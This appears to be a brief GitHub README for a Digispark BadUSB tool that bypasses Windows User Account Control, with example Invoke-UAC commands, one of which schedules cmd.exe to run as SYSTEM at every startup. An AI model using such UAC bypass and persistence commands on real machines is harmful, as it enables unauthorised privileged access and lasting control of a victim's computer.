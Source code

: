 # ByPassUAC-DigisPark

Credits: https://github.com/BlackShell256/Invoke-UAC

You can modify this line to do different tasks, for example:
Puedes modificar esta linea para hacer diferentes tareas, por ejemplo:
![image](https://github.com/Kidd3n/ByPassUAC-DigisPark/assets/89719224/c7d7262b-de1b-494b-a885-96422f591808)

```
Invoke-UAC -Executable powershell -Command "ls"
```

```
Invoke-UAC -Executable schtasks -Command "/create /tn UAC /tr 'cmd.exe' /sc onstart /ru System"
```
